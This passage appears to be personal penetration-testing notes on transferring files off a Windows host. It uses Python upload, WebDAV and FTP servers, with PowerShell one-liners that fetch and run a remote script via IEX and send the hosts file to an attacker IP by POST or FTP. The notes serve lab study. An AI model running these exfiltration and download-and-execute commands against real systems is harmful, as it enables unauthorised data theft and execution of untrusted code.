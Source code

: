 ```cmd
ftp -v -s -s:ftpcmd.txt
```
## uploading

```powershell
# convert to base64
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
- decode
```bash
echo "<b64encodedtext>" | base64 -d >> file.txt
```

- using python upload server
```bash
pip3 install uploadserver
python3 -m uploadserver
```
- then on windows
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
- or we can send via post request to netcat
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64

```
## webDAV
web dav is an alternative to SMB which allows file collaboration over http/https
- python modules
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
then you should be able to navigate to it as a file in a file share on windows
```cmd
dir \\192.168.49.128\DavWWWRoot
# davwwwroot is just a link to the webroot, doesn't exist in your filesystem, you can specify a share name instead
```
### ftp uploads
- start a writable ftp server in python
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
- then use powershell to upload a file 
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
you can also use the command file shown earlier
